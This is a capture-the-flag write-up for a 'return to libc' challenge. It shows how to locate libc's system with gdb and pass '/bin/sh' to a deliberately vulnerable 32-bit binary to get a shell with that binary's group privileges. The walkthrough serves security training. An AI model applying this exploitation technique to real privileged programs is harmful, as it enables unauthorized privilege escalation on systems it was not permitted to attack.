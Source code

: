 # Mission 3 ~ return to libc
## Goal and instructions
Connect to bin.chall.necst.it port 22 via SSH as user [USERNAME]. You will find the files in /home/[USERNAME]/mission3.

Your goal is to read the file flag with the privileges of the group that owns the vulnerable binary.


## Compiled options
The executable program is compiled in 32bit, the stack isn't executable and the canary is inactive.
```
gcc -m32 -no-pie -fno-pie -fno-stack-protector -O0 -o mission3 mission3.c
```


## Code overview
Looking at the source code you can see that there are assembly instructions; these instructions allow you to call a function. Our goal is to call the *system(“/bin/sh”)* function, which allows us to run a shell with the same privileges as the *mission3* binary.
```
asm(
      "movl %0, %%eax\n\t"
      "push %%eax\n\t"
      "call *%1"
      :
      : "r" (mess_addr), "r" (addr)
  );
```

## Solution
Reading the assembly code carefully, we see that the user can enter two parameters: the value to be saved in EAX and the function to be called.

To make the call to *system(“/bin/sh”)*, we need to set *“/bin/sh”* inside EAX and find the address of the *system* function in order to call it.

1. Find the address of the **system** function of the *libc* library
	- open gdb
		```
		gdb mission3
		```
	- put a breakpoint 
		```
		break main
		```
	- run the program 
		```
		run
		```
	- find the system address
		```
		print system
		```
2. Figure out where to save the required parameters
	- **/bin/sh** must be saved in *mess_addr* variable that corresponds to the *message* variable.
	- **system address** must be saved in *addr* variable that corresponds to the *day*, *month* and *year* variable.
		> **note:** the *system address* must be written in decimal
3. Execute the exploitation
	```
	./mission3
	```
